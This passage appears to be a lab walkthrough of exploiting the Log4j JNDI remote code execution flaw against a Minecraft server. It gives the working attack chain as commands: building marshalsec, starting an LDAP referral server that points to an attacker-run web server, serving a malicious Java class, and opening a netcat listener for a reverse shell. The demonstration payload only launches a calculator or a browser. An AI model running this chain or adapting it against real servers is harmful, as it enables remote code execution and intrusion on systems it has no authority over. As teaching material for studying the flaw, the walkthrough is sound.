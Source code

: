 Now we need maven installed:
```
sudo apt install maven
```

### Setting up the LDAP referral

The LDAP ( Lightweight Directory Access Protocol ) referral sends the request to the web server.

Start by cloning the marshalsec [repo](https://github.com/mbechler/marshalsec)
- Then cd into the directory.
- Take a moment to check out this [repository](https://github.com/xiajun325/apache-log4j-rce-poc)

Run this to get maven setup:
```
mvn clean package -DskipTests
```

Lastly, start the LDAP server: 
```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<ADDRESS>:<PORT>/#Log4jRCE"
```
- Replacing address and port with the address and port of your web server.

### Setting up the web server

The web server will be used to serve the malicious code back to the Minecraft server. It is very simple to setup, just a single python command.
```
python -m http.server
```

### Setting up the netcat listener

This is where the victim machine will connect to us to provide a reverse shell.
```
nc -lnvp 9999
```
- This sets up the netcat listener on port 9999

### Crafting the code to be executed

Back to this [repository](https://github.com/xiajun325/apache-log4j-rce-poc), we can see the start of some code in the src/main/java/Log4jRCE.java file.

Modifying that we get:
```
public class Log4jRCE {
    static {
        try {
           String fireCmd = "firefox --new-window youtube.com/@Justin-Garey"; //Ubuntu
           String calcCmd = "calc.exe";  //Windows
           String revPowershell = "";
           Runtime.getRuntime().exec(calcCmd).waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
- Put this file in the same directory as where you are running the web server.
- If you are running a windows vm, then you will see the calculator pop up.
- For an ubuntu machine, switch where the command used is specified to "fireCmd". You should see firefox open up to a certain youtube channel.
